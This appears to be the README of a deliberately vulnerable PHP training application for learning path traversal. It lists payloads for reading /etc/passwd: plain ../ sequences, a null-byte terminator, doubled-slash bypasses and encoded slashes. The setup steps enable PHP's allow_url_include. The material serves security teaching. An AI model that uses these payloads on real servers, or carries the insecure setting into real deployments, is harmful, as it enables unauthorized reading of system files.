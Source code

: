 # YrpreyPathTraversal

![yprey](https://i.imgur.com/wXUgMrw.png)

**Created by [Fernando Mengali](https://www.linkedin.com/in/fernando-mengali-273504142/)**

YrpreyPathTraversal is a framework that explains vulnerabilities of the Path Traversal in a clear and objective way. The framework was developed to teach and learn details in Pentest (penetration testing) and Application Security. In the context of Offensive Security, vulnerabilities contained in web applications can be identified, exploited and compromised. For application security professionals and experts, the framework provides an in-depth understanding of code-level vulnerabilities. Yrprey, making it valuable for educational, learning and teaching purposes in the field of Information Security.

#### Exploitation - Path Traversal - Basic

![yprey](https://i.imgur.com/B2DpeSO.png)

How exploit Path Taversal - Basic:

````python

 ../../../../etc/passwd

````

#### Exploitation - Path Traversal - Null Termination %00

![yprey](https://i.imgur.com/HE9OtTS.png)

How exploit Path Traversal - Null Termination %00:

````python

 ../../../../etc/passwd%00

````



#### Exploitation - Path Traversal - Bypass with caracteres "//" and/or "\/"

![yprey](https://i.imgur.com/b6islHK.png)

How exploit Path Traversal - Bypass with caracteres "//" and/or "\/"

````python

 ..//..//..//..//etc//passwd.

````



#### Exploitation - Path Traversal - Encoded %2f, %c0%af and %ef%bc%8f

![yprey](https://i.imgur.com/6ov1ME4.png)

How exploit Path Traversal - Encoded %2f, %c0%af and %ef%bc%8f

````python

 ..%2f..%2f..%2f..%2fetc%2fpasswd.

````


#### Features
 - Based on Path Traversal vulnerabilities.

 ## The framework was written with the following technologies:

* 1º - PHP
* 2º - Bootstrap - CSS
* 3º - Semantic UI


#### List of Vulnerabilities

* 1º - Path Traversal - Basic
* 2º - Path Traversal - Null Termination
* 3º - Path Traversal - Bypass
* 3º - Path Traversal - Encoded

## How Install

* 1º - Install and configure Apache, PHP on your Linux
* 2º - Import the YRpreyPathTraversal files to /var/www/
* 3º - In php ini change allow_url_include to "On".
* 4º - Start Apache Server
* 5º - Access the address http://localhost in your browser


## Observation
test on the Apache web server with PHP and on Linux operating systems.

## Reporting Vulnerabilities

Please, avoid taking this action and requesting a CVE!

The application intentionally has some vulnerabilities, most of them are known and are treated as lessons learned. Others, in turn, are more "hidden" and can be discovered on your own. If you have a genuine desire to demonstrate your skills in finding these extra elements, we suggest you share your experience on a blog or create a video. There are certainly people interested in learning about these nuances and how you identified them. By sending us the link, we may even consider including it in our references.
